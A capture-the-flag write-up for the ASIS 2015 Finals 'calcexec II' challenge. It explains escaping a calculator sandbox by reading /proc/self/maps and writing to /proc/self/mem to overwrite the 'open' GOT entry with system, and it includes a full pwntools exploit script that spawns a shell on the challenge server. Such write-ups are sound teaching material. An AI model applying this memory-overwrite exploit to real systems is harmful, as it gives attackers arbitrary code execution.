 ```yaml
---
layout: post
title: ASIS 2015 Finals: calcexec II
modified: 2015-10-14
tags: asis asis2015finals .net mono pwn
---
```


The second part of the challenge uses an already known technique to break out from "sandboxes".

Namely: overwriting the contents of the /proc/self/mem. This is possible because the calculator contains two methods: READ and WRITE with which we can read and write arbitrary files. (Note: I tried to read "flag2", but unfortunately it did not exist... :))

So I leaked the memory mappings with reading the /proc/self/maps file. Then I overwrote the "open" call's GOT entry to system. And simply called the READ call again with /bin/sh which instead of opening the file, opened a shell for me (btw I tried to call "sh" first, but it turned out it calls a stat function first, and "sh" did not work, but "/bin/sh" did the trick).

Also there were some character encoding problem (it probably tried to interpret the binary input as UTF8 characters), so I only overwrote 3 bytes instead of the full address and the exploit is not reliable: only works if ASLR gives an address with characters which are lower than 0x80.

After calling an "ls" it turned out the flag was in the flag2-03dae19b720939043d87fbf67342c2e8.txt file.

And the flag was: ASIS{9009eeab9869a8098acd7bb19f079230}

{% highlight python %}
#!/usr/bin/env python
from pwn import *
import re
from time import sleep

for i in xrange(10):
    print "Try #%d" % (i + 1)
    p = remote('185.82.202.146', 1337)
    #p = process('./start.sh', shell=True)
    p.recvline()
    p.recvline()

    p.send('authenticate\n')
    p.send(open('fakeCa.crt').read()+'\n')

    p.send('authenticate\n')
    p.send(open('fakeUserCert.crt').read()+'\n')

    p.send('flag\n')
    p.recvuntil('> ')
    print '[!] FLAG 1 = %s' % p.recvline().strip()

    p.send('read("/proc/self/maps",0,20000)\n')
    p.recvuntil('> ')
    maps = p.recvuntil('\x00')
    p.recvuntil('\n\n')
    #print "maps =", maps

    libcBase = int(re.search('([a-z0-9]+).*?libc-2.19.so', maps).group(1), 16)
    libThreadBase = int(re.search('([a-z0-9]+).*?libpthread-2.19.so', maps).group(1), 16)
    print "libThread base = 0x%016x" % libThreadBase

    systemLocal = 0x7ffff74ba230
    libThreadBaseLocal = 0x7ffff74aa000
    openGotAddr = 0x9776C8

    system = libThreadBase - libThreadBaseLocal + systemLocal
    print "system = 0x%016x" % system

    systemChars = p64(system)[0:3]
    if ord(systemChars[0]) >= 128 or ord(systemChars[1]) >= 128 or ord(systemChars[2]) >= 128:
        print "Exploit won't work, restarting..."
        p.close()
        continue
        
    p.send('write("/proc/self/mem",'+str(openGotAddr)+',"'+systemChars+'")\nread("/bin/sh",0,1)\n')
    p.recvline()
    p.recvline()

    time.sleep(0.4)
    p.send('ls && echo LSEND\n')
    print "ls result = %s" % p.recvuntil('LSEND\n').replace('LSEND','').replace('\n', ' ').strip()

    p.send('cat flag2-03dae19b720939043d87fbf67342c2e8.txt\n')
    print "[!] FLAG 2 = %s" % p.recvline().strip()

    p.interactive()
    break
{% endhighlight %}